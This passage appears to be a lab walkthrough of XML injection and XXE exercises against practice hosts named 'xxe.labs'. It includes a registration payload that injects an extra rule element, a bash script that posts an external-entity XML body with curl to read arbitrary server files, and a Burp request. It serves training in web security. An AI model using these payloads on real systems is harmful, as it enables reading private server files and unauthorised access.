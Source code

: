```xml
name:     </name></user><user><rule{NEW_LINE}>1<\!--
username: --></rule{NEW_LINE}><username>l33t
password: l33t
```
NOTE: on this one use burp to register so that \n can be injected easily.
## XXE 
### Level 1
The provided exploit script is:
```bash
#!/bin/bash

if [ $# -ne 1 ]; then
        echo "Usage $0 <file_path_to_read>"
        exit
fi

XML="<?xml version='1.0'?>
<!DOCTYPE xxe [
   <!ENTITY xxe SYSTEM '$1' >
]>
<login>
   <username>XXEME &xxe;</username>
   <password>password</password>
</login>"

echo -e "==========================================="
echo -e "\t\tSTART"
echo -e "\nExploiting the XXE using the following XML:"
echo $XML | xmllint --nowarning  --format -

echo -e "\n\nResults: ";
curl -s 'http://1.xxe.labs/login.php' --data "$XML" --header "Authxxe:login"

echo -e "\n\n\t\tEND";
echo -e "===========================================";
```
NOTE: All exploits can be done with burp repeater.
Using the command:
```bash
./exploit.sh /var/www/1/.letmepass \
| awk 'match($0, /<b>XXEME (.*)<\\\/b>/, m) { print m[1] }' \
| sed 's/\\\//\//g'
```
We can automate the task and retrieve the username contained in the file.
With burp we simply send the following to the login function and decode stuff:
```bash

```
### Level 2
Same as above, the difference is that the injection tells us to retrieve the file whois.php.
Burp:
```bash
POST /login.php HTTP/1.1
Host: 2.xxe.labs
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: text/xml
AuthXXE: login
X-Requested-With: XMLHttpRequest
Content-Length: 239
```